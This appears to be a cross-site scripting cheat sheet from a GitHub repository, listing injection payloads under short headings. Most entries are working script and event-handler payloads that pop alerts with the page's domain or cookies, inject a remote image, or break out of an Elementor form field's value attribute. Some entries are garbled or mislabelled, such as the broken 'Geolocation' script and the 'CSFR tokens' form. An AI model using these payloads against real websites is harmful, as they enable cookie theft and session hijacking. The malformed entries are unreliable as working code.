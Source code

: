 ## DOM
```
<script>alert(document.domain)</script>
```
## Self Cross-Site Scripting 
```mysql
<img src="" onerror="alert(document.cookie)">
```
## Non ExistantImage
```
<div><image src=validateNonExistantImage.png onloadstart=alert(1337)> hey girl hey </div>
```
## Get cookie
```
nu11secur1ty<script>alert(document.cookie)</script>
```
## Alert check
```
<script>alert("nu11secur1ty_is_here");</script>
```

## Hidden Image
```
<script>function a() { document.write("<img src='https://raw.githubusercontent.com/nu11secur1ty/XSSight/master/XSS-image/image/kostaakatil.webp'></img>"); }; window.onload = a; alert("A Hidden scripted image, warning you are vulnerable!");</script>
```
## Post image
```
<form action="#" method="post"><label for="imgURL">image URL:</label><input type="url" id="imgURL"/><label for="pageURL">page URL:</label><input type="url" id="pageURL"/><button id="imgAdd">add image</button></form>
```
## Error check
```
</span><img src=1 onerror=alert(1) /><span>
```
## CSFR tokens
```
<form action="https:/yourdomain.com/acquire_token.php"></textarea>
```
## Geolocation
```
<script>Var today = new Date().toLocaleString() + 'week' + 'day one two three four five six'.charAt(new Date().getDay());document.getElementById('remote').src = "htttp:// + today + "----" + encodeURIComponent(position.coords.latitude) + "," + encodeURIComponent(position.coords.longitude</script>
```
## "post_title" parameter
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
## Document_cookie
```
<input class="elementor-field elementor-field-textual elementor-size-lg" type="text" placeholder="" value="\"><script>alert(document.cookie)</script><\"" name="post_title" id="dce_view_f9fc119_post_title">
```
